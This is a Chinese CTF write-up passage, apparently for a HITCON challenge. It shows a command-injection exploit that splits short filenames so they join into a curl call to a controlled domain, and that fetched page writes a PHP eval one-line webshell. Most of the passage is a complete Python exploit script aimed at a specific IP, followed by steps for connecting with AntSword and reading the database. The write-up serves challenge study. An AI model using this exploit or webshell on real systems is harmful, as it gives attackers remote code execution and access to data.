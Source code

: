 这样sh m*后，会新建一个1文件。1文件内容是我们可控域名下的index.html.那么，我们只需要将index.html写成这样，就能在当前目录下构造一个一句话木马。(7d8fc845c741ce6a72fa592b394cf9f3是依据源码算出的哈希)

```
echo "<?php eval(\$_REQUEST['XXXX']);?>" > /www/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php
```

这样，我们就能在`http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php`得到一个一句话木马。

Payload如下：


```Python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import requests


def GetShell():
    url = "http://52.199.204.34/?cmd="
    requests.get("http://52.199.204.34/?reset=1")

    fileNames = ["cur\\", "l\\ \\", "na\\", "nb\\", "nc\\","xx.\\","xy\\","z\\>1"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print createFileUrl
        requests.get(createFileUrl)

    getShellUrl=url+"ls>m\\"
    print getShellUrl
    requests.get(getShellUrl)
    getShellUrl = url + "sh m*"
    print getShellUrl
    requests.get(getShellUrl)

    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)

    response=requests.get("http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2")
    print response.content



if __name__ == "__main__":
    GetShell()
```

然后，利用蚁剑连接,可以在home目录找到flag在数据库中。

![baby1](https://momomoxiaoxi.com/img/post/hitcon/baby1.png)

再连接数据库，获取数据即可。
